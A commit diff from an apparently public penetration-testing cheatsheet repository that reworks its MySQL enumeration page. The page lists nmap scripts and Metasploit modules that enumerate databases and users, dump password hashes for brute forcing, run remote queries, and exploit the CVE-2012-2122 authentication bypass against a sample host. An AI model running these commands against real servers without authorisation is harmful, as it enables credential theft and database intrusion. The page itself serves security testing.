

Before and after one commit to tymyrddin/cheatsheets, a Sphinx documentation site: the page built from source/docs/enumeration/mysql.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
databases

````diff
--- a/source/docs/enumeration/mysql.md
+++ b/source/docs/enumeration/mysql.md
@@ -2,14 +2,27 @@
 
 ## Nmap
 
-```text
-# nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP target>
-```
+Module that displays available databases:
 
-The [CVE-2012-2122](https://www.cve.org/CVERecord?id=CVE-2012-2122) vulnerability allows remote users to bypass
-authentication due to improper checking of returned values. Only old systems are affected: Ubuntu Linux 64-bit (10.04,
-10.10, 11.04, 11.10, 12.04); OpenSuSE 12.1 64-bit MySQL 5.5.23-log; Debian Unstable 64-bit 5.5.23-2; Fedora; and Arch
-Linux. Still, worth checking for.
+    # nmap -sV --script mysql-databases <target>
+
+Module that displays available users:
+
+    # nmap -sV --script mysql-users <target>
+
+Module that displays available variables:
+
+    # nmap -sV --script mysql-variables <target>
+
+Module that displays available users and their hash values in the form convenient for brute force attack (equivalent to
+`msf>use auxiliary/admin/mysql/mysql_hashdump`):
+
+    # nmap -p 3306 <ip> --script mysql-dump-hashes –script args='username=root,password=secret'
+
+Module that replaces MySQL client and sends queries to a remote database (equivalent to
+`msf>use auxiliary/admin/mysql/mysql_sql`):
+
+    # nmap -p 3306 <ip> --script mysql-query --script-\ args='query="<query>"[,username=<username>,password=<password>]'
 
 ## Metasploit
 
@@ -26,3 +39,25 @@ msf> use auxiliary/admin/mysql/mysql_enum
 msf> use auxiliary/scanner/mysql/mysql_schemadump
 msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
 ```
+
+## CVE-2012-2122
+
+The [CVE-2012-2122](https://www.cve.org/CVERecord?id=CVE-2012-2122) vulnerability allows remote users to bypass
+authentication due to improper checking of returned values. Only old systems are affected: Ubuntu Linux 64-bit (10.04,
+10.10, 11.04, 11.10, 12.04); OpenSuSE 12.1 64-bit MySQL 5.5.23-log; Debian Unstable 64-bit 5.5.23-2; Fedora; and Arch
+Linux. Still, worth checking for.
+
+```text
+msf > use auxiliary/scanner/mysql/mysql_authbypass_hashdump
+msf auxiliary(mysql_authbypass_hashdump) > set RHOSTS 172.16.2.54
+msf auxiliary(mysql_authbypass_hashdump) > set USERNAME root
+msf auxiliary(mysql_authbypass_hashdump) > exploit
+```
+
+For `nmap`, during the scanning, use the script `mysql-vuln-cve2012-2122`:
+
+    nmap -sV --script mysql-vuln-cve2012-2122 <target>
+
+## In a hurry
+
+    # nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <target>
````
Also changed, not shown: source/docs/databases/backend-functions.md (deleted, +0 -29 lines), source/docs/databases/brute-force.md (added, +27 -0 lines).
